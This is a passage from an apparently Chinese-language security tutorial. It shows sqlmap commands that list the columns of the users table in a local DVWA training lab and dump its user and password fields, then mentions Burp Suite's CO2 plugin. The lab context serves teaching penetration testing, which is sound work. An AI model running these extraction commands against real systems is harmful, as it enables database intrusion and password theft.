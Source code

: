 
**指定库名表名列出所有字段（-D 数据库名 -T 表名 --columns）**
```
python sqlmap.py -u "http://192.168.20.48/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" --headers="Cookie: PHPSESSID=k3e212a0a0p2mj5kut2gmjdfo2; XDEBUG_SESSION=15794; ts_uid=8970165994; ad_play_index=25; security=low" -D dvwa -T users --columns
```
![在这里插入图片描述](/docs/images/content/security/burp_suite/action_01_web.md.images/ef137fb87e10a12f35ed9f58ddd80965.png)

**指定库名表名字段dump出指定字段(-D 数据库名 -T 表名 -C 字段，隔开 --dmp)**
```
python sqlmap.py -u "http://192.168.20.48/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" --headers="Cookie: PHPSESSID=k3e212a0a0p2mj5kut2gmjdfo2; XDEBUG_SESSION=15794; ts_uid=8970165994; ad_play_index=25; security=low" -D dvwa -T users -C user,password --dump
```
![在这里插入图片描述](/docs/images/content/security/burp_suite/action_01_web.md.images/745a0063ce6c640bfbbc5ea6c2cc8ec0.png)
##### burpsuite co2
可以使用burpsuite的co2插件结合sqlmap，可以直接抓包后发送自动生成sqlmap脚本，相对于手工来说更方便简洁。
Extender-》Bappstore安装CO2插件